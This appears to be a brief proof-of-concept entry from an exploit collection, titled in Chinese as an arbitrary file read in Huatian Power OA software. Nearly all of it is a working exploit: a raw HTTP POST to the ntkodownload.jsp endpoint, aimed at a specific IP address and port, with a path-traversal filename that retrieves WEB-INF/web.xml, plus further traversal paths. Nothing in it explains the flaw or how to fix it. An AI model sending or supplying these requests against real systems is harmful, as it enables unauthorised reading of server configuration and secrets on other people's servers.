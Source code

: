 # 华天动力OA任意文件读取

    ```
POST /OAapp/jsp/trace/ntkodownload.jsp HTTP/1.1
Host: 106.14.168.223:8888
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip
Content-Length: 54

filename=../../../Tomcat/webapps/OAapp/WEB-INF/web.xml
```



../../../OAapp/WEB-INF/web.xml

../../../Tomcat/webapps/OAapp/WEB-INF/web.xml
